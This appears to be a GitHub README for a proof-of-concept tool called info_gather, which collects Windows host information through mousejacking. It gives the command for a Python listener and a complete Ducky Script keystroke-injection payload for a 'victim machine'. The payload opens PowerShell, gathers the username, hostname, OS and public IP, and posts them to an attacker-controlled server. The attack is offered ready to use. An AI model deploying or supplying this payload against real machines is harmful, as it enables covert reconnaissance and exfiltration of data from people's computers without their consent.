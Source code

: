 # info_gather
Gather Windows Info for POC. A good use case is mousejacking

Run the server and any port using:

```
python3 info_gather.py 80
```

On the victim machine use a Ducky Script to send the info to the server host:

```
DELAY 2000
GUI r
DELAY 500
STRING powershell.exe
DELAY 500
ENTER
DELAY 500
STRING $username = $env:username;$hostname = hostname;$os = (Get-CimInstance Win32_OperatingSystem).Caption;$public_ip = (Invoke-WebRequest -Uri 'http://ipinfo.io/ip').Content.Trim();$data = @{'username' = $username;'hostname' = $hostname;'os' = $os;'public_ip' = $public_ip};$json = $data | ConvertTo-Json;Invoke-RestMethod -Method Post -Uri "http://yourserver.com" -Body $json -ContentType "application/json"
DELAY 500
ENTER
```
